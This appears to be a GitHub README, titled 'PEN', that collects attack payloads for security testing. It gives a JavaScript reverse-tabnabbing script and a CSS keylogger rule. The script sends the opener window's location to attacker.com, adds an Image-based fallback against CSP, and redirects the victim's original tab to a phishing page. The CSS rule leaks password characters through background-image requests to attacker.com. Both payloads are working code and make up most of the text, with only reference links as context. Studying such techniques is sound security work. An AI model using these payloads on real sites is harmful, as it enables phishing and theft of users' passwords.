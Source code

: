 # PEN
A curated list of script and attack for security testing purposes and knowledgement.  
  
## JavaScript:
  - #### `target="_blank"` vulnerability:
    ```javascript
    if (window.opener && window.opener.location) {
      // Imagine this script as a library added to an attacker official website.
      // If this site is opened by an user that clicked to an `a` element
      // with target attribute setted to '_blank', the browser will initialize an `opener` object,
      // referred to the browser window which the user came from.
      // This weakness could be used to redirect the opener window to a phishing site.

      let randomUserID = Math.random().toString().slice(2,),
        urlStartPhishing =
          `//attacker.com/new/phishing/?location=${window.opener.location}&user=${randomUserID}`,
        redirect2Phishing = () => {
          // Wait for the deployment of the phishing site.
          setTimeout(() => {
            window.opener.location =
              `//attacker.com/${randomUserID}/${window.opener.location}`

          }, 8000)
        };

      fetch(urlStartPhishing)
        .then(response => {
          redirect2Phishing()
        })
        .catch(err => {
          // Error, maybe CSP :(

          let bypassCSP = new Image();
          bypassCSP.src = urlStartPhishing;
          redirect2Phishing()
        });
    }
    ```  
    References:
    - https://dev.to/ben/the-targetblank-vulnerability-by-example
  
## CSS:
  - #### CSS Keylogger: 
    ```css
    input[type="password"][value$="a"] {
      background-image: url("https://attacker.com/a");
    }
    ```  
    References:
    - https://github.com/maxchehab/CSS-Keylogging
    - https://hackaday.com/2018/02/25/css-steals-your-web-data/

